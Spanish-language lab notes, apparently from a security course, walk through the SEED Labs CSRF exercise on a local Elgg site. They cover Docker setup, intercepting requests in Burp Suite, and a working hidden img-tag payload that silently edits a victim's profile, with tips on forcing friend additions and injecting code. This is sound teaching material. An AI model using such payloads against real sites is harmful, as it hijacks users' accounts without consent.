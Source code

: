 
----
- Tag: #CROSS-SITE #REQUEST #FORGERY #CSRF 
----
>**AVISO: Si a la hora de hacer el ‘**docker-compose up -d**‘, salta un error de tipo: “**networks.net-10.9.0.0 value Additional properties are not allowed (‘name’ was unexpected)**“, lo que tenéis que hacer es en el archivo ‘**docker-compose.yml**‘, borrar la línea número 41, la que pone “**name: net-10.9.0.0**“.

Con hacer esto, ya podréis desplegar el laboratorio sin ningún problema.

El **Cross-Site Request Forgery** (**CSRF**) es una vulnerabilidad de seguridad en la que un atacante **engaña** a un usuario legítimo para que realice una acción no deseada en un sitio web sin su conocimiento o consentimiento.

En un ataque CSRF, el atacante engaña a la víctima para que haga clic en un enlace malicioso o visite una página web maliciosa. Esta página maliciosa puede contener una solicitud HTTP que realiza una acción no deseada en el sitio web de la víctima.

Por ejemplo, imagina que un usuario ha iniciado sesión en su cuenta bancaria en línea y luego visita una página web maliciosa. La página maliciosa contiene un formulario que envía una solicitud HTTP al sitio web del banco para transferir fondos de la cuenta bancaria del usuario a la cuenta del atacante. Si el usuario hace clic en el botón de envío sin saber que está realizando una transferencia, el ataque CSRF habrá sido exitoso.

El ataque CSRF puede ser utilizado para realizar una amplia variedad de acciones no deseadas, incluyendo la transferencia de fondos, la modificación de la información de la cuenta, la eliminación de datos y mucho más.

Para prevenir los ataques CSRF, los desarrolladores de aplicaciones web deben implementar medidas de seguridad adecuadas, como la inclusión de tokens CSRF en los formularios y solicitudes HTTP. Estos tokens CSRF permiten que la aplicación web verifique que la solicitud proviene de un usuario legítimo y no de un atacante malintencionado (aunque cuidadín que también se pueden hacer cositas con esto).

Os compartimos a continuación el enlace al comprimido ZIP que utilizamos en esta clase para desplegar el laboratorio donde practicamos esta vulnerabilidad:

- **Lab Setup**: [https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip](https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip)
----
# Empezamos desplegando nuestro laboratorio 

- Descargamos el siguiente comprimido.
```
wget https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip
```

- Lo descomprimimos con
```
unzip Labsetup.zip
```

- Ingresamos a la carpeta y deplegamos el docker 
```
docker-compose up -d 
```

- En este punto deberiamos realizar las siguientes modificaciones en la ruta **/etc/hosts** ya el laboratorio contiene una ip especifica para cada puerto.
```
10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.105 www.attacker32.com
```
- En este caso solo nos enfocaremos en el dominio www.seed-server.com para realizar la práctica, eh ingresamos al dominio desde nuestro navegador.
- En este ejemplo usaremos solo dos usuarios y contraseñas que serian creados con nvim un archivo .txt
```
alice:seedalice
samy:seedsamy
```
- Una vez dentro podemos revisar el identificador de usuario con overing
- Y testear o editar esto con burpsuite en usuario no previlegiado
```
burpsuite &> /dev/null & disown
```
- Interceptamos la petición con foxyproxy de cambiarle el nombre en la pagina y ver que pasa con burpsuite
- Vemos que se pide una solicitud por POST /action/profile/edit HTTP/1.1
- Ahora intentaremos cambiar la solicitud por **GET**
- Enviamos al repeater con Ctrl+R
- Ahora refrescamos la pagina y regresamos a la parte donde toca editar el nombre de usuario
- Interceptamos con burpsuite y con click derecho cambiamos a la opción **change request metod** en la información del repeater
- Hacemos una pequeña verificación de datos borrando los codigos en la primera linea del repeater
- Damos click en **SEND** y vemos que nos da una repuesta 302 no found
- Ponemos click en **Follow redirection** y ahora si recargamos de nuevo la pagina debería cambiarse al nombre que ingresamos en el **repeater**
## Ahora ingresamos con el usuario de samy
- Vemos que podemos enviar mensajes a los usuarios, lo que haremos es crear una estructura en **HTML** para enviarle Alice para que lo abra y cambiar su nombre 
- El mensaje seria de la siguiente manera
```HTML
<img src="http://www.seed-server.com/action/profile/edit?name=HACKED&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56"alt="image"width="1"height="1"/>
```
- Enviando esto nos permitiría cambiar el nombre de usuario de la persona que abra el mensaje 
- Tambien podriamos utilizar el mismo metodo a traves de la dirección URL

# Tips o datos:
- Podriamos utilizar este mismo metodo para poder agregar amigos a la lista sin necesidad de que la acepten
- Podríamos vulnerar cualquier campo que sea editable 
- También podríamos insertar código en nuestro perfil para que cuando la gente la vea se inyecte del texto por detrás y así lograr cambiar áreas textiables.